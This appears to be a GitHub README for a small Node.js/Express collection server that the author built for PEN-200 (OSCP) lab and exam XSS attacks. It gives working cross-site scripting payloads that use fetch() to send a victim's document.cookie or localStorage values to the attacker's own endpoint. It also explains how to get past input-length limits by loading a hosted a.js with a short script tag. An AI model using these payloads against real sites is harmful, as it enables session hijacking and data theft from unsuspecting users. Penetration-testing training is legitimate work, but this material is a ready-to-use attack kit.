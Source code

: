 # PEN-200-XSS

I created this simple XSS API endpoint for PEN-200 lab machines and the exam.

You need to install Node.js and NPM in your Kali linux.

```bash
sudo apt update
sudo apt install nodejs
sudo apt install npm
```

After the installation, make sure to run the following commands to see the installation is completed.

```bash
node -v
npm -v
```

And clone this repo or if you don't have git in your Kali, you can download it and run the following command to install Express.js.

```bash
npm install
```

## Usage

Firstly, run Node.js server.

```bash
npm run node
```

The endpoint will be `http://[your_ip_address]:3000/collect`.

Secondly, inject the following code in the target system.

```html
<script>
	fetch('http://[your_ip_address]:3000/collect?data' + document.cookie);
</script>
```

The example above sends cookie to the server and logs it in the text file `log.txt` in the root directory.

If you need a value from local storage, replace `document.cookie` with `localStorage.getItem("[key_name]")`.

## When input field has a character length constraint

Sometimes you find weak input fields that doesn't sanitize user inputs, but it only accepts X amount of characters, like 50 characters for instance.

The above example won't work, and in that case you should create a js file with the following content.

```JavaScript
fetch('http://[your_ip_address]:3000/collect?data' + document.cookie);
```

Name the file as `a.js` and load it with a script tag.

```html
<script src=http://[your_ip_address]/a.js>
```

Now instead of injecting the `fetch` code into the input field, you can inject the script tag to bypass the constraint.

`a.js` should be hosted by SimpleHTTPServer or other server of your choice.

I recommend to set the port to 80, so you don't need to include the port number in the URL which shortens overall character length. 

